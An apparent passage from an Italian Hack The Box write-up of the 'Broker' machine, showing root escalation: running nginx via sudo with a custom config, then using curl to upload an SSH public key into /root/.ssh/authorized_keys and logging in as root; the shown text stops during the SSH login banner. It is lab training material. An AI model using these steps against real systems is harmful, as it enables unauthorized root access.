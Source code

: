 Salviamo le impostazioni in un file e configuriamo NGINX per utilizzarlo tramite il flag -c.

```bash
activemq@broker:/tmp$ sudo nginx -c /tmp/pwd.conf
```

a questo punto non ci resta che creare la nostra coppia di chiavi RSA e caricare la chiave `.pub` sulla macchia compromessa e per farlo utilizziamo ssh-keygen

```bash
┌──(root㉿kali)-[/home/kali/htb/broker/CVE-2023-46604]
└─# ssh-keygen -f broker
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in broker
Your public key has been saved in broker.pub
The key fingerprint is:
SHA256:ZGBLmMBhz4DJLcXpy9HaR0aaK2XTdbL1luOz22bLutk root@kali
The key's randomart image is:
+---[RSA 3072]----+
|.+O+.o+          |
|o+.Boo + o o     |
|  o + * + = . .  |
|   o B * .   =   |
|  . B = S   o .  |
|   = o .     o   |
|    . .       o  |
|             .=o |
|             =*E.|
+----[SHA256]-----+


```

con curl carichiamo la chiave `borker.pub` sul target 

```
┌──(root㉿kali)-[/home/kali/htb/broker/CVE-2023-46604]
└─# curl 10.10.11.243:1338/root/.ssh/authorized_keys --upload-file broker.pub
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   563    0     0  100   563      0   3436 --:--:-- --:--:-- --:--:--  3453

```

non ci resta che collegarci tramite ssh 

```bash
┌──(root㉿kali)-[/home/kali/htb/broker/CVE-2023-46604]
└─# ssh -i broker root@10.10.11.243
The authenticity of host '10.10.11.243 (10.10.11.243)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:16: [hashed name]
    ~/.ssh/known_hosts:19: [hashed name]
    ~/.ssh/known_hosts:64: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.243' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov 17 06:05:58 PM UTC 2023

  System load:           0.080078125
```